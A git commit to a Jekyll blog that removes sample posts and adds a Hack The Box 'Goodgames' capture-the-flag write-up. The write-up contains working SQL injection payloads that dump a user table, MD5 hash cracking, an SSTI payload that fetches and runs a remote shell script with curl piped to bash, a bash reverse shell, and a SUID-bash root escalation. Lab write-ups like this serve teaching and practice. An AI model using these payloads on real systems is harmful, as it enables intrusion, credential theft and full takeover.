

Before and after one commit to tocttou/hacker-blog, a Jekyll site: the page built from index.html, in a window 1280 px wide. Shown: the whole page, without its empty margins (117-1153 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code.

Commit message:
WriteUpGoodgames

````diff
--- a/_posts/2017-12-10-Another-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: Another Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- a/_posts/2017-12-11-One-More-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: One More Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- a/_posts/2017-12-12-Sample-Page.md
+++ /dev/null
@@ -1,124 +0,0 @@
----
-title: Sample Page
-published: true
----
-
-Text can be **bold**, _italic_, ~~strikethrough~~ or `keyword`.
-
-[Link to another page](another-page).
-
-There should be whitespace between paragraphs.
-
-There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.
-
-# [](#header-1)Header 1
-
-This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.
-
-## [](#header-2)Header 2
-
-> This is a blockquote following a header.
->
-> When something is important enough, you do it even if the odds are not in your favor.
-
-### [](#header-3)Header 3
-
-```js
-// Javascript code with syntax highlighting.
-var fun = function lang(l) {
-  dateformat.i18n = require('./lang/' + l)
-  return true;
-}
-```
-
-```ruby
-# Ruby code with syntax highlighting
-GitHubPages::Dependencies.gems.each do |gem, version|
-  s.add_dependency(gem, "= #{version}")
-end
-```
-
-#### [](#header-4)Header 4
-
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-*   This is an unordered list following a header.
-
-##### [](#header-5)Header 5
-
-1.  This is an ordered list following a header.
-2.  This is an ordered list following a header.
-3.  This is an ordered list following a header.
-
-###### [](#header-6)Header 6
-
-| head1        | head two          | three |
-|:-------------|:------------------|:------|
-| ok           | good swedish fish | nice  |
-| out of stock | good and plenty   | nice  |
-| ok           | good `oreos`      | hmm   |
-| ok           | good `zoute` drop | yumm  |
-
-### There's a horizontal rule below this.
-
-* * *
-
-### Here is an unordered list:
-
-*   Item foo
-*   Item bar
-*   Item baz
-*   Item zip
-
-### And an ordered list:
-
-1.  Item one
-1.  Item two
-1.  Item three
-1.  Item four
-
-### And a nested list:
-
-- level 1 item
-  - level 2 item
-  - level 2 item
-    - level 3 item
-    - level 3 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-  - level 2 item
-  - level 2 item
-- level 1 item
-
-### Small image
-
-![](https://assets-cdn.github.com/images/icons/emoji/octocat.png)
-
-### Large image
-
-![](https://guides.github.com/activities/hello-world/branching.png)
-
-
-### Definition lists can be used with HTML syntax.
-
-<dl>
-<dt>Name</dt>
-<dd>Godzilla</dd>
-<dt>Born</dt>
-<dd>1952</dd>
-<dt>Birthplace</dt>
-<dd>Japan</dd>
-<dt>Color</dt>
-<dd>Green</dd>
-</dl>
-
-```
-Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
-```
-
-```
-The final element.
-```
--- /dev/null
+++ b/_posts/2022-11-14-Goodgames-Writeup.md
@@ -0,0 +1,189 @@
+---
+title: Goodgames Writeup
+published: true
+---
+
+![](../assets/hackthebox.com/Goodgames/Logo.png)
+
+# [](#header-1)Port Scan
+First thing we do is scanning every port from the IP, for a faster scan we use TCP SYN with the parameter `-sS`
+```sh
+nyeees@parrot$ nmap -p- --open -sS --min-rate 5000 -v -n -Pn 10.10.11.130 -oN totalPorts
+```
+```sh
+PORT   STATE SERVICE
+80/tcp open  http
+```
+We analyze the versions and use a default script from nmap to get detailed info.
+```sh
+nyeees@parrot$ nmap -sCV -p80 10.10.11.130 -oN PortScanned
+```
+```sh
+PORT   STATE SERVICE VERSION
+80/tcp open  http    Apache httpd 2.4.51
+| http-server-header:
+|   Werkzeug/2.0.2 Python/3.6.7
+|_  Werkzeug/2.0.2 Python/3.9.2
+| http-title:     Flask Volt Dashboard -  Sign IN  | AppSeed
+|_Requested resource was http://internal-administration.goodgames.htb/login
+Service Info: Host: goodgames.htb
+```
+
+With the detailed scan we can see some domains:
+**goodgames.htb**
+**internal-administration.goodgames.htb**
+So I add them in the /etc/hosts
+```sh
+File: /etc/hosts
+───────┼──────────────────────────────────────────────────────────────────────────
+   1   │ # Host addresses
+   2   │ #
+   3   │ 127.0.0.1  localhost
+   4   │ 127.0.1.1  kikolon-vmwarevirtualplatform
+-> 5   │ 10.10.11.130    internal-administration.goodgames.htb   goodgames.htb
+   6   │
+   7   │ ::1        localhost ip6-localhost ip6-loopback
+   8   │ ff02::1    ip6-allnodes
+   9   │ ff02::2    ip6-allrouters
+```
+
+
+# [](#header-2)Web
+> In the web we have a login that may be vulnerable to sql injection
+
+
+![](../assets/hackthebox.com/Goodgames/LogIn.png)
+
+I try to execute an sqli, but it seems to be sanitized. Let's try it in Burp Suite
+
+![](../assets/hackthebox.com/Goodgames/firstPost.png)
+
+In the first post i will try to inject sql querys in the password field
+And after doing that there's no change in the response that we get from the Burp Suite repeater.
+Now let's try with the email...
+
+![](../assets/hackthebox.com/Goodgames/PostEmail.png)
+
+We got it, just with a simple sqli we got a cookie, and if we go the line 99 from the response we can see this:
+```js
+<h2 class="h4">
+	Welcome admin
+</h2>
+```
+
+Going back to the page we can see we are logged in with the admin session.
+But lets try to get more information from the sqli
+```sql
+email=nyees%40gmail.com' order by 4-- -
+
+```
+We list the databases:
+```sql
+email=nyees%40gmail.com' union select 1,2,3,schema_name from information_schema.schemata-- -
+```
+And got the database 'main'.Now the tables:
+```sql
+email=nyees%40gmail.com' union select 1,2,3,table_name from information_schema.tables where table_schema='main'-- -
+```
+Oh there's a table named users, lets dig into that...
+```sql
+email=nyees%40gmail.com' union select 1,2,3,column_name from information_schema.columns where table_name='user'-- -
+```
+Yesssss,here there are all the users their passwords, so we get them:
+```sql
+email=nyees%40gmail.com' union select 1,2,3,group_concat(name,password) from user-- -
+```
+Okay, we got credentials, but there aren't the passwords in plain text, it is a hash and by its length its seems to be using the protocol MD5.
+Lets crack the password from the admin
+```sh
+john credentials.txt --format=Raw-MD5
+```
+Having the password from the admin lets have a look in the other domain that we included in the /etc/hosts : **internal-administration.goodgames.htb**
+
+![](../assets/hackthebox.com/Goodgames/LogAdmin.png)
+
+So the credentiales are correct!!. In this new panel if we go to settings we can change some info about the admin. And not only that but we can execute a Server-side Template injection (SSTI)
+
+![](../assets/hackthebox.com/Goodgames/testSSRF.png)
+
+
+With the github [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) Im able to use a template that gives me an RCE
+
+```
+self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://10.10.16.9:8080/shell.sh|bash').read()
+```
+The curl is pointing to a server that i opened in python with the command:
+
+```sh
+nyeees@parrot$ sudo python3 -m http.server 8080
+```
+In this server there is a script that if executed will give me a rever shell:
+```sh
+#!/bin/bash
+bash -i >& /dev/tcp/10.10.16.9/443 0>&1
+```
+So i listen in the port  443 with netcat and...
+<br><br>
+![](../assets/hackthebox.com/Goodgames/ContainerIn.png)
+
+WE ARE IN!!!!
+<br><br>
+It seems we are root, but when i execute hostname -I shows the ip `172.19.0.2`, this is not the machine's ip, it seeems we are in a container.
+
+
+# [](#header-3)Privilege escalation (Container)
+The user flag is easy to get, i went to the /home directory and there is a user called augustus, where you can see the user.txt
+<br><br>
+In this container i cann't see any file that gives me information, and in the /etc/passwd the augustus user does not exists, maybe this user is from the original machine.
+<br><br>
+If the user is from the machine, then the /home/augustus directory is connected to the machine, so i run the command:
+
+```sh
+root@3a453ab39d3d:/# mount -n | grep "augustus"
+```
+
+And yes, it tells me that there is a mount with this folder :
+
+```sh
+/dev/sda1 on /home/augustus
+```
+
+Now i will try to see if there are more opened ports in the machine, sending pings to the gateway, where the machine is located, for making this posible i runned this script in bash inside the container:
+
+```sh
+function ctrl_c(){
+  echo "Saliendo..."
+  exit 1
+}
+
+
+trap ctrl_c INT
+
+for i in {0..66000};do
+
+	timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$i 2>/dev/null && echo 'puerto $i abierto'" &
+
+done
+```
+I runned this script and i got that the port 22 is also opened... And i had some credentials from before that i have to try. And trying:
+
+```sh
+ssh august@172.19.0.1
+```
+With the password that i got previously... IM IN!!! , and now in the original machine.
+# [](#header-4)Privilege escalation (Root)
+For getting the root flag you need a good understanding about how a folder is mounted, because the solution is very fast but different.
+<br><br>
+If the folder /home/augustus is mounted in the original machine it tells me that if we make a change on the container (where we have root) then it changes as well in the original machine. So first, i copy the bash in the original machine
+<br><br>
+
+```sh
+augustus@GoodGames:~$ cp /bin/bash .
+```
+After that I come back to the container and change the owner to root and give suid permissions
+
+```sh
+root@3a453ab39d3d:/home/augustus# chown root:root bash
+root@3a453ab39d3d:/home/augustus# chmod 4755  bash
+```
+Finally I just have to run the parameter `bash -p` in the original machine, and we get a bash with root permissions. :)
````
Also changed, not shown: _posts/2018-01-06-Yet-Another-Sample-Page.md (+5 -3 lines), assets/hackthebox.com/Goodgames/ContainerIn.png (added), assets/hackthebox.com/Goodgames/LogAdmin.png (added), assets/hackthebox.com/Goodgames/LogIn.png (added), assets/hackthebox.com/Goodgames/Logo.png (added), assets/hackthebox.com/Goodgames/PostEmail.png (added), assets/hackthebox.com/Goodgames/firstPost.png (added), assets/hackthebox.com/Goodgames/testSSRF.png (added).
